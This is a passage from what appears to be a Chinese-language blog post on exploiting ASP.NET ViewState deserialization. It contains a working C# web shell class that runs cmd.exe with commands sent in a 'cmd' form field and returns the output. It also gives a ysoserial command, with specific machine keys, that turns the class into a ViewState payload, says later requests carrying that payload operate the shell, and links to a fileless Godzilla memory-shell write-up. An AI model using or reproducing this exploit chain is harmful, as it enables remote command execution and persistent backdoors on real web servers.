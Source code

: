 ```cs
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Form["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

生成 payload：

```powershell
.\ysoserial.exe 
-p ViewState 
-g ActivitySurrogateSelectorFromFile 
-c "ExploitClass.cs;C:/Windows/Microsoft.NET/Framework64/v4.0.30319/System.dll;C:/Windows/Microsoft.NET/Framework64/v4.0.30319/System.Web.dll" 
--path="/default.aspx" 
--apppath="/" 
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
```

之后的请求都附带这个 payload 就可以操作 WebShell 了

![](/img/2024-08-12-viewstate-exp/5.png)

类似的还可以写哥斯拉内存马：

- [.Net ViewState反序列化实现无文件哥斯拉内存马 – Whwlsfb's Tech Blog (wanghw.cn)](https://blog.wanghw.cn/security/dotnet-viewstate-no-file-godzilla-memshell.html)

### 0x03 其他
